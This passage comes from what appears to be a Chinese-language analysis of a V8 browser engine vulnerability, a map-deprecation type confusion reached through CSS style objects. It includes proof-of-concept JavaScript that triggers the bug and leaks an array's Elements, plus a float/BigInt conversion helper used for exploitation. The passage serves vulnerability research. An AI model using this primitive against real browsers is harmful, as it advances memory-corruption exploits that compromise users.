 
具体操作是在 s2 的两次 prop 属性设置之间，通过给 s1 的 prop 属性赋值的方式，修改 s1 的 prop 属性的类型。这样 s1 的旧 map 会被标记为 deptecate，因为 s1 和 s2 是共享同一个 map 的，s2 当前使用的 map 就变成 deprecate 的了，等 s2 的第二次 prop 赋值时，由于 map 被打上了 deprecated 标记，就走入了非 simple_transition 的代码路径。 
 
利用代码如下：

```javascript
s2 = document.createElement('p').style;
v2 = { toString: () => {s2.prop = 1; s1.prop = 1.1; };
s2.prop = v2;
```

---
⚠️ 提示：不清楚 s1 和 s2 为什么共享同一个 map 的同学，可以去了解一下 v8 中 map transition 的相关内容，我在 [CVE-2021-30551 分析](2022-04-30-CVE-2021-30551.md) 这篇的"分析 map 的变化过程"这一小节也有简单介绍。 

---

在属性访问的时候也是用同一个线性搜索算法，所以之后访问对象的 prop 属性，实际访问的都是存储在第一个 prop 属性处的值，对于 s1 来说是第一次 WriteToField 写入的，对于 s2 来说是第二次。

分析 JSObject::WriteToField 代码，结合上 CVE-2021-30551 的利用经验，可以很容易想到，如果把 v2 改成一个数组的话，就可以直接通过 s2.prop 读取到数组的 Elements。

```javascript
var s2 = document.createElement('p').style;
var v2 = [1.1, 1.2, 1.3];
v2.toString =  () => {
	s2.prop = 1
	s1.prop = 1.1
};
s2.prop = v2;
```

实际验证下效果，验证过程中还要用到一些浮点数和大整数之间的类型转换，我这次把它封装成了模块 conversion.mjs，方便以后复用。

完整代码如下：

```javascript
// conversion.mjs
var buf = new ArrayBuffer(8);
var f64 = new Float64Array(buf);
var u64 = new BigUint64Array(buf);
var u32 = new Uint32Array(buf);

function ftou(f) {
	f64[0] = f;
	return u64[0];
}

function utof(u) {
	u64[0] = u;
	return f64[0];
}

function low32(u) {
	u64[0] = u;
	return u32[0];
}

function high32(u) {
	u64[0] = u;
	return u32[1];
}

export {ftou, utof, low32, high32};
```
